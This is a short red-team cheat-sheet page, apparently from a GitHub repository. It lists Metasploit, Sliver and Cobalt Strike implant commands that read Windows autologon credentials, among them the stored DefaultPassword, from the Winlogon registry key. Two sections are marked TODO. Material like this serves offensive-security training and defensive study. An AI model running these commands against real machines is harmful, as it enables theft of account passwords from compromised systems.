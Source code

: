 # C2 Frameworks

## 01 - Metasploit

```
meterpreter > run post/windows/gather/credentials/windows_autologin
```

## 02 - Sliver

TODO: Fill this info

```
sliver (IMPLANT_NAME) > registry read -H HKLM "SOFTWARE\Microsoft\Windows NT\CurrentVersion\winlogon"

sliver (IMPLANT_NAME) > registry read
```

## 03 - Cobalt Strike

TODO: Fill this info

```
beacon> reg query x64 "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\winlogon"

beacon> reg queryv x64 "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\winlogon" DefaultUserName

beacon> reg queryv x64 "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\winlogon" DefaultDomainName

beacon> reg queryv x64 "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\winlogon" DefaultPassword
```

---
## References

### Rapid7

- [Rapid7: Metasploit Framework - Windows AutoLogin Post Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/gather/credentials/windows_autologin.md)